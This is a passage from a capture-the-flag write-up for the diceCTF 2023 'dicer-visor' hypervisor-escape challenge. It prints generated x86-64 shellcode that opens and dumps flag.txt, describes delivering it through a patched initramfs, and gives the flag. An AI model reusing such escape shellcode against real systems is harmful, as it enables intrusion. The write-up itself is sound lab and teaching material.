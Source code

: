 When we execute `python gen-shellcode.py`, we get our C-style formatted shellcode which we can plug into our main.c:

```bash
nikos@ctf-box:~/ctfs/diceCTF23/pwn/dicer-visor$ python gen-shellcode.py
const char *shellcode = "\x48\x31\xd2\x6a\x01\xfe\x0c\x24\x48\xb8\x66\x6c\x61\x67\x2e\x74\x78\x74\x50\x6a\x02\x58\x48\x89\xe7\x31\xf6\x0f\x05\x41\xba\xff\xff\xff\x7f\x48\x89\xc6\x6a\x28\x58\x6a\x01\x5f\x99\x0f\x05";
const size_t shellcode_len = 47;
```

#### Getting the flag

Finally we run `build.sh` to create the `initramfs_patched.cpio.gz` that contains the modified `init` script and our `main` binary. When we connect to the remote and provide our `initramfs_patched.cpio.gz` for the hypervisor to use, our userland program gets executed when the kernel boots, we perform the trip to the hypervisor, and dump the contents of `flag.txt`!

`dice{dicer-visor-rules}`
